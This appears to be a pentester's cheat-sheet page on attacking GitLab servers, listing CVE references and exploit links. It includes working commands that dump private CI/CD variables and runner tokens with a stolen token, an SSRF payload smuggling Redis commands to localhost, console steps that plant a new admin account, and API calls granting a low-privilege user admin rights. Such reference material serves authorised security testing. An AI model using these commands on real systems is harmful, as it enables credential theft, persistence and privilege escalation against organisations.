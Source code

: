 # GitLab

- [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
- [https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/](https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/)
- [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## Search for Secrets

- [https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/](https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/)
- [https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/](https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/)

Search for CI/CD variables and runner tokens:

```bash
TOKEN=`cat token`
GITLAB=gitlab.megacorp.local
API="https://$GITLAB/api/v4"

curl -sH "Authorization: Bearer $TOKEN" "$API/user" | jq

# 1. bash get_project_ids.sh <PAGE_NUMBER> | tee -a projects
curl -sH "Authorization: Bearer $TOKEN" "$API/groups/<GROUP_NAME_OR_ID>/projects/?include_subgroups=true&visibility=private&per_page=100&page=$1" | jq -r '.[].id'

# 2. bash get_secrets.sh
for id in `cat projects`; do
    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq '.path'

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id/variables" | jq

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq .runners_token | jq
done
```

Search for credential leaks with [gitleaks](https://github.com/zricethezav/gitleaks):

```
$ eget -qs linux/amd64 "zricethezav/gitleaks" --to gitleaks
$ ./gitleaks detect -s . -v | jq '.Match + " :: " + .File'
```




## GitLab Runners Abuse

- [https://frichetten.com/blog/abusing-gitlab-runners/](https://frichetten.com/blog/abusing-gitlab-runners/)
- [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

- [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
- [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
- [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

- [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
- [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

- [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```ruby
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => 'snovvcrash', :email => 'snovvcrash@megacorp.local')
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Enable password authentication for web (e. g., when only LDAP authentication is available):

```ruby
$ sudo gitlab-rails console
irb(main):001:0 > Gitlab::CurrentSettings.update!(password_authentication_enabled_for_web: true)
```

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://gitlab.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://gitlab.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://gitlab.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```




## Arbitrary File Read

**CVE-2023-2825**

- [https://labs.watchtowr.com/gitlab-arbitrary-file-read-gitlab-cve-2023-2825-analysis/](https://labs.watchtowr.com/gitlab-arbitrary-file-read-gitlab-cve-2023-2825-analysis/)
- [https://github.com/Occamsec/CVE-2023-2825#cve-2023-2825](https://github.com/Occamsec/CVE-2023-2825#cve-2023-2825)

